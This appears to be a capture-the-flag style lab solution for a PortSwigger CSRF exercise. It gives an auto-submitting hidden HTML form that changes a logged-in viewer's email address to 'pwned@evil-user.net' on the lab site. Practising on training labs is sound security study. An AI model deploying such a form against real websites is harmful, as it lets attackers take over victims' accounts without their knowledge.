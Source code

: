 # CSRF where token validation depends on token being present

## This lab's email change functionality is vulnerable to CSRF.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

```html
<html>
  <body>
    <form
      action="https://0a91007203cdae6f80cfdffc00380074.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
